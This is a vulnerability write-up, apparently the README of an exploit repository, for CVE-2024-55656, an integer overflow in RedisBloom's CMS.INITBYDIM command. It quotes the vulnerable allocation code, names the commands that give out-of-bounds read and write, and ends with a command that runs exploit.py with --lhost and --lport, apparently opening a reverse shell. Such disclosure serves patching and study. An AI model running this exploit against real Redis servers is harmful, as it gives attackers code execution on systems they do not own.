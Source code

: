 ### CVE-2024-55656 - Redis Stack - RedisBloom Integer Overflow Remote Code Execution Vulnerability

* Title: Redis Stack RedisBloom Integer Overflow Remote Code Execution Vulnerability
* ZDI: ZDI-25-009
* CVE: CVE-2024-55656
* Credits: rick2600 and gqsilva
* CVSS: 8.8 (HIGH)
* Affected version: RedisBloom v2.6.12 shipped with Redis Stack 7.2.0-v10

### Analysis (Short Version)
There is an integer overflow vulnerability in RedisBloom (https://github.com/RedisBloom/RedisBloom), which is a module used in redis (https://redis.io/docs/latest/develop/data-types/probabilistic/bloom-filter/). The integer overflow vulnerability allows an attacker (a redis client which knows the password) to allocate memory in the heap lesser than the required memory due to wraparound. Then read and write can be performed beyond this allocated memory, leading to info leak and OOB write.

The integer overflow is in CMS.INITBYDIM command, which initialize a Count-Min Sketch to dimensions specified by user. It accepts two values (width and depth) and uses them to allocate memory in NewCMSketch()

File: src/cms.c

```c
CMSketch *NewCMSketch(size_t width, size_t depth) {
    assert(width > 0);
    assert(depth > 0);

    CMSketch *cms = CMS_CALLOC(1, sizeof(CMSketch));

    cms->width = width;
    cms->depth = depth;
    cms->counter = 0;
    cms->array = CMS_CALLOC(width * depth, sizeof(uint32_t));

    return cms;
}
```

OOB read is achieved through CMS.QUERY command implemented in CMS_Query(). 

OOB write is achieved through CMS.INCRBY command implemented in CMS_IncrBy().

For full analysis check the [advisory](https://github.com/RedisBloom/RedisBloom/security/advisories/GHSA-x5rx-rmq3-ff3h)

### Proof-of-Concept

1. Start redis-stack
   
`docker run -p 6379:6379 --name redis-stack redis/redis-stack:7.2.0-v10`

2. Run the exploit
   
`python exploit.py --host 172.17.0.2 --port 6379 --lhost 172.17.0.1 --lport 4444`


### References
1. https://www.zerodayinitiative.com/advisories/ZDI-25-009/
2. https://github.com/RedisBloom/RedisBloom/security/advisories/GHSA-x5rx-rmq3-ff3h
3. https://redis.io/blog/security-advisory-cve-2024-46981-cve-2024-51737-cve-2024-51480-cve-2024-55656/
